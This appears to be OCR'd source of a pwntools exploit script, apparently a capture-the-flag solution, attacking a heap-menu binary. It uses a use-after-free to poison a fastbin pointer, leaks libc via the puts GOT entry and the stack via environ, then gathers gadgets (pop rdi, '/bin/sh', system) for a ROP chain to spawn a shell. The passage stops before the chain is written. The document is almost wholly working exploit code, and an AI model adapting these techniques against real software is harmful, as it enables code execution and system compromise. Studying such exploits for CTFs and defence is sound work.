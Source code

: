 ```python
# Use the UAF to overwrite fastbin fd, also make sure to make it aligned and have the correct size in metadata
# We also need smaller chunks so that calloc doesn't zero out too much
# Notice how the size is also smaller than what we could've allocated. That is so that calloc doesn't zero out too much.
create(0x30, b'A')

secrets[1] = get_secret(1)

delete(1)

create(0x40, b'A') # create a chunk of size 0x40, because the program places the size in the pointer list and we need it
# to pass fastbin size and alignment check

# program places size in pointer array, we use that to pass fastbin size check, as well as the alignment requirement
ptr_list = elf.address + 0x40c0

edit(1, pack(mangle_ptr(heap_base + 0x2f0, ptr_list)))

create(0x30, b'B')

################ Leak libc by printing content of GOT entry ################
# We write a pointer to a GOT entry over the pointer list, when we print it, it will give us its content (libc address)
create(0x30, pack(elf.got['puts']))

secrets[2] = b'0'

libc_leak = unpack(show(2).ljust(8, b'\x00'))

assert libc_leak > 0x100000000000, 'corrupted leak'

libc.address = libc_leak - libc.sym['puts']

print(f'Libc base: {hex(libc.address)}')

################ Stack leak ################
# Now that we have libc base, we can place environ on the pointer list which contains a stack address
secrets[4] = get_secret(4)

edit(4, pack(libc.sym['environ']))

stack_leak = unpack(show(2).ljust(8, b'\x00'))

assert stack_leak > 0x100000000000, 'corrupted leak'

print(f'Stack leak: {hex(stack_leak)}')

################ ROP ################
# With stack leak, we can now write a pointer to the return address over the pointer list
# Then we can write our ROP payload to that pointer
return_address = stack_leak - 0x170 + 0x20

edit(4, pack(return_address))

pop_rdi = libc.address + 0x10f75b
str_bin_sh = next(libc.search(b'/bin/sh\x00'))
system = libc.sym['system']
ret = elf.address + 0x0000000000001016

```